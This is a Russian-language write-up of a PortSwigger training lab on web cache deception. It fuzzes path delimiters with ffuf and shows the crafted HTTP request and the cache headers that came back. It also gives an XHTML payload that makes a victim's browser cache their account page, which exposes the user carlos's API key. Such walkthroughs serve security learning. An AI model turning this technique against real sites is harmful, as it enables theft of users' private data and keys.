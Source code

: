 ```yaml
---
title: "Exploiting path delimiters for web cache deception"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-delimiter-discrepancies/web-cache-deception/lab-wcd-exploiting-path-delimiters"
classes: wide
---
```


Для прохождения лабы нужно найти `API`-ключи пользователя `carlos` с помощью **Web cache deception**. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/
```

## Solution

Залогинюсь в аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/1.png){: height="200" .align-center}

Аккаунт находится по следующему пути — `/my-account`. Добавлю строчку `bar` для проверки, выдаст ли мне ту же страницу.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/2.png){: height="200" .align-center}

Ожидаемо, что нет. Попробую перебрать  [список разделителей](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list), чтобы понять, какие из них подойдут. Для разнообразия воспользуюсь `ffuf`.

```bash
ffuf -w wordlists/webcache_delimeters.txt -u https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-accountFUZZbar -X GET
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/3.png){: height="200" .align-center}

Предположу, что эти символы являются разделителями. Наиболее подходящим выглядит `;`. Использую его:

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;bar
```

Получил ту же страницу ответа. Добавлю расширение `.css`, чтобы проверить, будет ли ответ кэшироваться. Для этого удобнее смотреть `Burp Suite`.

```http
GET /my-account;bar.css HTTP/2
Host: 0a750077032ed4f682a6e83000eb0023.web-security-academy.net
Cookie: session=qqr2NcH61DjJaM74YK4er7ewvpoSuduN
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Заголовок ответа:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Server: Apache-Coyote/1.1
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3833
```

Вижу в ответе `X-Cache: miss` и `Cache-Control`. Значит `.css` файлы кэшируются. Перейду в эксплойт сервер для создания нагрузки.

Так как я занимаюсь разработкой фишинговых нагрузок на работе, то мне не хочется использовать только `.html` и `.js` форматы. Поэтому вот вам немного флекса с `XHTML`:

```xhtml
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Payload</title>
</head>
<body>
    <img src="https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css" alt="Pwn" />
</body>
</html>
```

При открытии файла происходит обращение по адресу `https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css` для получения картинки. Но что-то идет не так, и данные пользователя кэшируются. Вот незадача. Файл называют `expoit.xhtml`, в `Content-Type` выставляю значение `application/xhtml+xml`. На сайте это выглядит вот так:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/4.png){: height="200" .align-center}

Отправляю запрос и проверяю страницу:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/5.png){: height="200" .align-center}

`API`-ключ получен. Проверю его в верификаторе:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/6.png){: height="200" .align-center}